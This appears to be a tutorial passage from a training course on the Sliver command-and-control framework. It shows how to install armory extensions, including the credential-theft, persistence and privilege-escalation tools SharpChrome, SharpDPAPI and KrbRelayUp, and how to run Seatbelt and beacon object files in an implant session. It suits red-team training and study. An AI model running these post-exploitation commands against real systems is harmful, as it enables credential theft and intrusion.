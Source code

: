 # This course is intended for the 1.6 version of Sliver, which is not yet published

The Sliver armory is used to install and maintain third party extensions and aliases within sliver. The full list of available extensions can be found at https://github.com/sliverarmory/armory, keep in mind this is community maintained so not all modules are necessarily up to date. 

You can download all configured extensions/aliases using the armory command.

```bash
[server] sliver > armory install all
? Install 18 aliases and 84 extensions? Yes
[*] Installing alias 'SharpSecDump' (v0.0.1) ... done!
[*] Installing alias 'SharpChrome' (v0.0.1) ... done!
[*] Installing alias 'SharpDPAPI' (v0.0.1) ... done!
[*] Installing alias 'SharpMapExec' (v0.0.1) ... done!
[*] Installing alias 'KrbRelayUp' (v0.0.1) ... done!
[*] Installing alias 'SharpRDP' (v0.0.1) ... done!
[*] Installing alias 'SharpUp' (v0.0.1) ... done!
[*] Installing alias 'SharpView' (v0.0.1) ... done!
[*] Installing alias 'SharPersist' (v0.0.1) ... done!
[*] Installing alias 'Sharp WMI' (v0.0.2) ... done!
...
[*] All packages installed
```

These commands can then be used in the context of a session or beacon similarly to other commands, with a couple caveats.

Let’s go ahead and run our first assembly.

```bash
[server] sliver (UNABLE_PRIDE) > seatbelt " WindowsCredentialFiles"

[*] seatbelt output:

                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v1.1.1         ,(((&%%%%%%%%%%%%%%%%%,
                         #%%%%##,

====== WindowsCredentialFiles ======

  Folder : C:\Users\defaultuser0\AppData\Local\Microsoft\Credentials\

   ...
```

As you can see Sliver ran the Seatbelt assembly and provided us with the output of our command.

## Bof’s

Beacon object files are loaded using trustedsec’s coffloader. When you run a bof command the loader will first be loaded into memory and is used to run whichever bof you choose. From an operator’s perspective bof’s are similar to basic sliver commands.

```bash
[server] sliver (UNABLE_PRIDE) > sa-whoami

[*] Successfully executed sa-whoami (coff-loader)
[*] Got output:

UserName		SID
====================== ====================================
test.local\tester

GROUP INFORMATION                                 Type                     SID                                          Attributes
================================================= ===================== ============================================= ==================================================
test.local\None                              Group                    S-1-5-21-3109228153-3872411817-1195593578-513 Mandatory group, Enabled by default, Enabled group,
Everyone                                          Well-known group         S-1-1-0                                       Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Local account and member of Administrators groupWell-known group         S-1-5-114
BUILTIN\Administrators                            Alias                    S-1-5-32-544
BUILTIN\Performance Log Users                     Alias                    S-1-5-32-559                                  Mandatory group, Enabled by default, Enabled group,
BUILTIN\Users                                     Alias                    S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\INTERACTIVE                          Well-known group         S-1-5-4                                       Mandatory group, Enabled by default, Enabled group,
CONSOLE LOGON                                     Well-known group         S-1-2-1                                       Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Authenticated Users                  Well-known group         S-1-5-11                                      Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\This Organization                    Well-known group         S-1-5-15                                      Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Local account                        Well-known group         S-1-5-113                                     Mandatory group, Enabled by default, Enabled group,
LOCAL                                             Well-known group         S-1-2-0                                       Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\NTLM Authentication                  Well-known group         S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group,
Mandatory Label\Medium Mandatory Level            Label                    S-1-16-8192                                   Mandatory group, Enabled by default, Enabled group,

Privilege Name                Description                                       State
============================= ================================================= ===========================
SeShutdownPrivilege           Shut down the system                              Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                          Enabled
SeUndockPrivilege             Remove computer from docking station              Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set                    Disabled
SeTimeZonePrivilege           Change the time zone                              Disabled
```

Since these payloads are run in-process, they have similar advantages and drawbacks as in-process assemblies, meaning no new processes are spawned on execution, but a crash risks losing the implant.
